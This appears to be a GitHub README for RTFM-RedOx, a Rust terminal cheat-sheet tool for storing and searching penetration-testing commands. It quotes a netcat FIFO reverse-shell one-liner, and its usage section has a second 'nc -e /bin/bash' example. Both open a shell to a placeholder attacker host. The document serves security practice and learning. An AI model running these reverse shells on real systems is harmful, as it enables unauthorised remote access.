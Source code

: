 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or continually run a python script with a lot of switches you'll never remember.  It's basically like having a terminal history and history search for commands you never type in your terminal but often type when you have a shell on a remote host or when interacting with a vulnerable web app.  That being said, the database also contains many commands you'd also run on your attack machine for things like nmap, impacket scripts (adding as I go), crackmapexec, and 

As I've been working on this I've realized this can also be a good learning resource.  For example, the following reverse shell one liner has been used by many but is probably not all that well understood.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f
```
0xdf has a [great video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) that does just that. I will be updating references for commands in the database that include deep dive explanations, preferrably to video content, that provide a better understanding for more complex commands.  Any commands related to Kerberos, ADCS or Windows authentication in general will benefit from these types of external references to explainers.  The commands in the database from the original RTFM project do have links to websites and many of those are good but some need updating or additional references to more in depth explanations. 

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be gradually adding new commands and pushing the edited db file to the repository.    


## Usage
```
Ctrl+r           Enter quick search mode to dynamically find commands as you type.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  And in some cases Ctrl+h stops working so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows**: Not supported because the Termion crate does not work on windows.  I'll be switching to crossterm at some point.


## To Add
- [x] After adding a new command to the db select it as the current command.
- [ ] Continue updating database with newer commands for things like Crackmapexec,ffuf,feroxbuster,Rubeus,Impacket, etc.
- [ ] Update command reference links to better and more up to date content, preferably adding links to video content when possible.
- [ ] Display ids next to references so that if necessary they can be deleted from the db through the redox CLI.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  At the moment, tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Tab auto complete for best match while in search mode.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

